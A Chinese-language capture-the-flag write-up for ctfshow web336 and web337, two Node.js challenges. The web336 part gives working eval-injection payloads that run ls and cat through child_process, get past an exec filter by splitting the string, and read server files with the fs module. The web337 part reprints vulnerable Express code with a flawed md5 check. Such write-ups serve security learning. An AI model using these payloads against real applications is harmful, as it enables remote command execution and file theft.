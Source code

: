 ### ctfshow web336

禁用了`exec`，所以我们可以利用`spawn`

```php
require( 'child_process' ).spawnSync( 'ls', [ '/' ] ).stdout.toString()
require( 'child_process' ).spawnSync( 'cat', [ 'f*' ] ).stdout.toString()

```

还可以利用文件操作的方式读取文件内容

```
__filename 表示当前正在执行的脚本的文件名。它将输出文件所在位置的绝对路径，且和命令行参数所指定的文件名不一定相同。 如果在模块中，返回的值是模块文件的路径。
__dirname 表示当前执行脚本所在的目录。
```

```
/?eval=__filename
/?eval=require('fs').readFileSync('/app/routes/index.js','utf-8')         //过滤exec|load
/?eval=require('child_process')['exe'+'cSync']('ls').toString()           //+号绕过
```

还有这样

先利用`readdirSync`读取目录，然后`readfileSync`读取文件内容。

```
?eval=require('fs').readdirSync('.')
?eval=require('fs').readFileSync('fl001g.txt','utf-8')
```

##  数组绕过

### ctfshow web337

```js
var express = require('express');
var router = express.Router();
var crypto = require('crypto');

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var flag='xxxxxxx';
  var a = req.query.a;
  var b = req.query.b;
  if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	res.end(flag);
  }else{
  	res.render('index',{ msg: 'tql'});
  }
  
});

module.exports = router;

```
